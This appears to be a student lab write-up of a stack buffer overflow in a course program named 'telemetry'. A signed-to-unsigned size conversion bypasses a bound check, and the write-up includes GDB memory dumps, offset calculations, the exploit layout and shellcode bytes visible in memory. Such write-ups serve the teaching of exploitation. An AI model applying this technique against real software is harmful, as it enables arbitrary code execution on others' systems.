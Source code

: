 # Question 2: Spica Write-up
## Main Idea
#### (A description of the vulnerability)
The code is vulnerable because of a type mismatch between a signed int and an unsigned int. This code involves a bound check however it can be easily bypassed if the attacker provides a negative number. In the following code, if we pass in an negative number for ```size```, the bound check is of no use and when it reaches ```fread```, the function expects a size of unsigned int, however, a signed int ```size``` is provided. C silently typecasts it to an unsigned int after which it  becomes a huge positive number and through this vulnerability we can overwrite anything above msg.
```
    size_t bytes_read = fread(&size, 1, 1, file);
    if (bytes_read == 0 || size > 128)
        return;
    bytes_read = fread(msg, 1, size, file);
```

This is a Integer Conversion Vulenrability. 

## Magic Numbers
#### (How any relevant “magic numbers” were determined, usually with GDB)
We first determined the address of ```msg``` (0xffffd568) and the address of rip of ```display``` function (0xffffd5fc). This was done by invoking GDB and setting a breakpoint on line 7.
```
(gdb) x/64x msg
0xffffd568:     0x00000001      0x00000000      0x00000002      0x00000000
0xffffd578:     0x00000000      0x00000000      0x00000000      0x08048034
0xffffd588:     0x00000020      0x00000006      0x00001000      0x00000000
0xffffd598:     0x00000000      0x0804904a      0x00000000      0x000003ea
0xffffd5a8:     0x000003ea      0x000003ea      0x000003ea      0xffffd78b
0xffffd5b8:     0x0fcbfbfd      0x00000064      0x00000000      0x00000000
0xffffd5c8:     0x00000000      0x00000000      0x00000000      0x00000001
0xffffd5d8:     0x00000000      0xffffd77b      0x00000002      0x00000000
0xffffd5e8:     0x00000000      0x00000000      0x00000000      0xffffdfe2
0xffffd5f8:     0xffffd618      0x080492bd      0xffffd7ab      0x00000000
0xffffd608:     0x00000000      0x00000000      0x00000000      0xffffd630
0xffffd618:     0xffffd6b0      0x08049494      0x00000002      0x0804928d
0xffffd628:     0x0804cfe8      0x08049494      0x00000002      0xffffd6a4
0xffffd638:     0xffffd6b0      0x0804b008      0x00000000      0x00000000
0xffffd648:     0x08049472      0x0804cfe8      0x00000000      0x00000000
0xffffd658:     0x00000000      0x08049097      0x0804928d      0x00000002


(gdb) i f
Stack level 0, frame at 0xffffd600:
 eip = 0x80491ee in display (telemetry.c:8); saved eip = 0x80492bd
 called by frame at 0xffffd630
 source language c.
 Arglist at 0xffffd5f8, args: path=0xffffd7ab "navigation"
 Locals at 0xffffd5f8, Previous frame's sp is 0xffffd600
 Saved registers:
  ebp at 0xffffd5f8, eip at 0xffffd5fc
```
By doing so, we learned that the location of the rip of this function was 148 bytes above the start of ```msg``` (0xffffd5fc - 0xffffd568 = 94 in hex = 148 in decimal).

## Exploit Structure
#### (A description of your exploit structure)
The exploit has four parts:
1. Insert a one byte negative number (0xff) which is read into ```size``` to get around the bound check
2. Write 148 bytes of dummy characters to overwrite everything in between rip of ```display``` and start of ```msg```: ```msg```, compiler padding, and the sfp.
3. Overwrite the rip with the address of the shellcode. Since we are putting shellcode directly after the rip, we overwrite the rip with 0xffffd600 (0xffffd5fc + 4).
4. Finally, insert the shellcode directly above the rip.
This causes the ```telemetry``` program to execute the shellcode when it returns from ```display``` function. 


## Exploit GDB Output
#### (GDB output demonstrating the before/after of the exploit working)
When we ran GDB after inputting the malicious string, we got the following output:
```
(gdb) x/64x msg
0xffffd568:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd578:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd588:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd598:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5a8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5b8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5c8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5d8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5e8:     0x000000c0      0x41414141      0x41414141      0x41414141
0xffffd5f8:     0x41414141      0xffffd600      0xcd58326a      0x89c38980
0xffffd608:     0x58476ac1      0xc03180cd      0x2f2f6850      0x2f686873
0xffffd618:     0x546e6962      0x8953505b      0xb0d231e1      0x0a80cd0b
0xffffd628:     0x0804cfe8      0x08049494      0x00000002      0xffffd6a4
0xffffd638:     0xffffd6b0      0x0804b008      0x00000000      0x00000000
0xffffd648:     0x08049472      0x0804cfe8      0x00000000      0x00000000
0xffffd658:     0x00000000      0x08049097      0x0804928d      0x00000002
```
After 148 bytes of garbage, the rip is overwritten with 0xffffd600 which points to the shellcode directly above the rip. 

